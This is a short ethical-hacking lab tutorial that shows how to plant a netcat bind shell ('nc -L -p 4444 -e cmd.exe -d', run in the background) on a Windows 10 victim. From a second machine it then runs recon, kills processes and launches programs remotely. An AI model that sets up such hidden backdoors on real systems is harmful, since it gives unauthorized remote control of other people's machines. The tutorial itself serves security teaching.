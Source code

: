 # Backdoor access with swiss army knife(nc)
Trojans and backdoors are types of malware used to infect and compromise computer systems. Many Trojans are used to manipulate files on the victim computer, manage processes, remotely run commands, intercept keystrokes, watch screen images, and restart or shut down infected hosts.

## Lab Configuration
- Windows-10(victim)
- Windows-7(attacker)
- [netcat](https://nmap.org/ncat/)
- make sure two hosts are in same network

## Netcat
To start connect type following commands in windows-10 command prompt.
```
nc -L -p 4444

```
- nc mean program to run
- L mean listen mode
- p mean listen port number


<p align="center"><img src="https://github.com/AungZayMyo/Ethical-Hacking/assets/154745254/b0545e46-a604-4da4-9a83-11d48d7479af" width="400px" height="250px"><br>Figure (1) Type text in prompt both machine can see it</p>

In windows-7 command prompt type following commands to connect with windows-10.
```
nc [192.168.100.] 4444

```
- nc mean program to run
- IP mean windows-10 IP
- port number to connect
<p align="center"><img src="https://github.com/AungZayMyo/Ethical-Hacking/assets/154745254/cdefa90b-7055-48dc-98ec-a0e3e66ce919" width="400px" height="250px"><br>Figure (2) Type text in prompt both machine can see it</p>

Now type following commands in windows-10 command prompt.
```
nc -L -p 4444 -e cmd.exe -d

```
- nc mean program to run
- L mean listen mode
- p mean listen port number
- e filename / program to provide
- d mean running in the background

After that, in windows-7 command prompt type following commands to connect with windows-10. ``` nc [192.168.100.] 4444 ```. We got command prompt of windows-10.
<p align="center"><img src="https://github.com/AungZayMyo/Ethical-Hacking/assets/154745254/549a9faf-3e03-4daf-a4e9-40c38c1bb9d2" width="400px" height="250px"><br>Figure (3) Command prompt access </p>

Type ``` ipconfig ``` we can get information of windows-10.

<p align="center"><img src="https://github.com/AungZayMyo/Ethical-Hacking/assets/154745254/22a6da17-9af6-4837-bd75-61fde7ef4837" width="400px" height="250px"><br>Figure (4) </p>

Type ``` tasklist ``` to see running process in windows-10. And type ``` taskkill /PID PID of the cmd.exe ```.

- taskkill mean program to kill tasks in windows
- /PID PID is process id of the running program

<p align="center"><img src="https://github.com/AungZayMyo/Ethical-Hacking/assets/154745254/afc39767-0490-477b-8ea8-1005acbd51ee" width="400px" height="250px"><br>Figure (5) </p>

Goes and check in windows-10, cmd.exe is now closed.

<p align="center"><img src="https://github.com/AungZayMyo/Ethical-Hacking/assets/154745254/2784ad17-74fb-4af4-bab8-a356fbab02b4" width="400px" height="250px"><br>Figure (6) </p>

Type ``` start calc ``` to start calculator program.

<p align="center"><img src="https://github.com/AungZayMyo/Ethical-Hacking/assets/154745254/7b6ca409-26b8-48eb-9f70-b832885af3fd" width="400px" height="250px"><br>Figure (7) </p>


Goes and check in windows-10, calculator program is running. What if a malicious program instead of calculator program......

<p align="center"><img src="https://github.com/AungZayMyo/Ethical-Hacking/assets/154745254/fc73aeda-a0dc-4995-b8e9-d2ac31e4d60c" width="400px" height="250px"><br>Figure (8) </p>

## Conclusion 

In this tutorial, backdoor program execution is demostrated with netcat swiss army knife. Do more Practice and Expert it!. <br>
**3/22/2024** <br>
Contributed By - Jord@n
